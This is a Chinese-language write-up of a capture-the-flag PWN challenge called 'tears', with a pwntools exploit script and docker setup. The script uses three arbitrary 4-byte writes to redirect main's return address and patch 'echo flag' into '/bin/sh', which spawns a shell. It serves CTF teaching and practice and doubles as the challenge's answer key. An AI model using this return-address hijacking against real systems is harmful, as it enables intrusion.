 #### 1.题目名称

tears

#### 2.题目类型

PWN (easy)

#### 3.题目描述

行车不规范，亲人两行泪。哦不，其实是三行泪。

#### 4.考查知识点

考察任意地址写的利用

#### 5.解题思路

- 题目中提供了三次任意地址写的机会，每次最多可以写4字节。

- 由于关闭了ASLR和PIE，使用一次机会将main函数的返回地址修改为hack函数的地址。

- hack函数虽然只是执行`echo flag`，但是可以发现程序的.text段是有RWX权限的，因此可以利用剩余的两次机会将`echo flag`覆盖为`/bin/sh`，进而拿到shell。当然，覆盖为其他命令也是可以的，只要长度在8字节内均可。

- docker的环境和本地的环境可能存在差别，主要体现在返回地址的位置会不同。但是题目泄露了栈上一个变量的地址，可以通过这个地址计算出docker中返回地址的正确位置。

- 示例EXP如下：

```python
from pwn import *
p = process('./tears')

def send(index, value):
	p.recvuntil('Eye  >')
	p.sendline(hex(index))
	p.recvuntil('Tear >')
	p.sendline(str(value))

def recv():
	p.recvuntil('Your relative:')
	luck = p.recvuntil('\n')
	return luck

luck = int(recv(), 16)
local = 0xffffcfcc
diff = luck - local
send(0xffffcffc + diff, 0x0804883c)   
send(0x080bb888, 0x6e69622f) 
send(0x080bb88c, 0x2068732f) 
p.interactive()
```

#### 6.环境部署

如果需要编译二进制文件，执行：
```bash
make clean & make all
```
Build docker:
```bash
docker build -t "tears" .
```
Run docker:
```bash
docker run -d --privileged -p "0.0.0.0:2333:9999" tears
```
程序会在2333端口运行。
